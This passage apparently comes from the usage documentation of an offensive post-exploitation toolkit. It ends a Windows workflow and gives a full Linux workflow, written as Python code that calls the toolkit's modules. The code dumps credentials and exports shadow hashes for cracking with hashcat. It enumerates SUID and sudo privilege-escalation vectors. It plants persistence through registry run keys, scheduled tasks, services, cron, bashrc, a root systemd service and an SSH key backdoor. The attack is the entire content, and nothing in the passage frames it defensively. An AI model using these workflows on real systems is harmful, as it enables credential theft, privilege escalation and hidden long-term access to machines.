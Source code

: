```python
    # Step 3: Dump credentials as SYSTEM
    dumper = CredentialDumper()
    creds = dumper.dump_all()
    dumper.export_credentials('credentials.json')

    # Step 4: Establish persistence as SYSTEM
    persist = WindowsPersistence('C:\\Windows\\Temp\\implant.exe')
    persist.registry_run_key('HKLM_Run')
    persist.scheduled_task(run_level='HIGHEST')
    persist.service_persistence()

    print(persist.generate_report())
```

### Workflow 2: Linux Post-Exploitation

```python
from persistence.privilege_escalation import PrivilegeEscalation
from persistence.credential_dumping import CredentialDumper
from persistence.linux_persist import LinuxPersistence

# Step 1: Enumerate privesc vectors
privesc = PrivilegeEscalation()
vectors = privesc.enumerate()

# Check for easy wins
suid_vectors = [v for v in vectors if v.vector_type == 'suid_binary']
sudo_vectors = [v for v in vectors if 'sudo' in v.vector_type]

print(f"[+] SUID binaries: {len(suid_vectors)}")
print(f"[+] Sudo vectors: {len(sudo_vectors)}")

# Step 2: Dump credentials
dumper = CredentialDumper()
creds = dumper.dump_all()

# Export hashes for cracking
dumper.export_credentials('shadow_hashes.txt', format='hashcat')

# Step 3: Establish persistence
persist = LinuxPersistence('/tmp/.update', name='system-check')

# Multiple persistence mechanisms
persist.cron_job(schedule='@reboot')
persist.bashrc_persistence('/tmp/.update &', global_bashrc=True)

# SSH key backdoor
persist.ssh_authorized_keys("ssh-rsa AAAAB3...")

persist.systemd_service(user='root')

print(persist.generate_report())
```
